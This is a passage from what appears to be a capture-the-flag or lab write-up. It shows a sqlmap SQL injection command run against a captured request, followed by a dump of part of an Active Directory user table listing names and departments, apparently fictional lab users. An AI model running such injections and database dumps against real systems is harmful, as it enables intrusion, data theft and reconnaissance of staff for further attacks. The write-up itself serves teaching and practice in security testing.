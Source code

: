 <p>sqlmap -r product.req</p>

<p>This proves successful and we are able to dump the entire database. 
Of interest is a table giving Active Directory users fullnames and their respective groups</p>

<p>Database: ADConnect
Table: ADUsers
[40 entries]
+------------+-------------+-----------------+
| LastName   | FirstName   | Department      |
+------------+-------------+-----------------+
| Vazquez    | Annie       | Finance         |
| Falcon     | Paul        | Finance         |
| Anthony    | Fae         | Finance         |
| Dillard    | Walter      | Finance         |
| Bradford   | Louis       | Finance         |
| Gage       | Sonya       | Finance         |
| Sanchez    | Alba        | Finance         |
| Branch     | Daniel      | Finance         |
| Cruz       | Christopher | Finance         |
| Johnson    | Nicole      | Finance         |
| Holliday   | Mary        | Human Resources |
| Shoemaker  | Michael     | Human Resources |
| Slater     | Arlene      | Human Resources |
| Prentiss   | Kelsey      | Human Resources |
| Davis      | Ginger      | Human Resources |
| McDaniel   | Johnny      | Human Resources |
| Jones      | James       | Human Resources |
| Garcia     | Thomas      | Human Resources |
| Harrison   | Melissa     | Human Resources |
| Hight      | Nicholas    | Human Resources |
| Baird      | William     | Marketing       |
| Ochoa      | Michelle    | Marketing       |
| Hopkins    | Joshua      | Marketing       |
| Blea       | Howard      | Marketing       |
| Pennington | Clara       | Marketing       |
| Glen       | David       | Marketing       |
| Hartsfield | Kim         | Marketing       |
| Ramirez    | Rita        | Marketing       |
| Hafner     | Opal        | Marketing       |
| Matthews   | Louie       | Marketing       |
| Okeefe     | Lee         | Sales           |